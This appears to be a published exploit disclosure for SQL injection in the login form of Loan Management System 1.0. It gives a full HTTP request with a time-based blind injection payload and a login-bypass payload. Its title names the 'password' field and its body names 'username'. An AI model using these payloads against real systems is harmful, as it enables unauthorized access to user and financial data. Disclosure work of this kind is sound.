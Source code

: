 # Loan Management System - login.php 'password' SQL inject

#### Exploit Title: Loan Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "login.php/username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.31.35:8091
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8091/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

username=admin'union select 1,sleep(10),3,4,5#&password=admin&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/sourcecodesql.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/sleep10.png)

4、We can also use the universal account and password to log in to the system

payload:`username=123'or '1'='1' --+&password=admin&login=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/universalaccount.png)

SQL injection also exists in the "password" field, so I won't describe it in detail here.
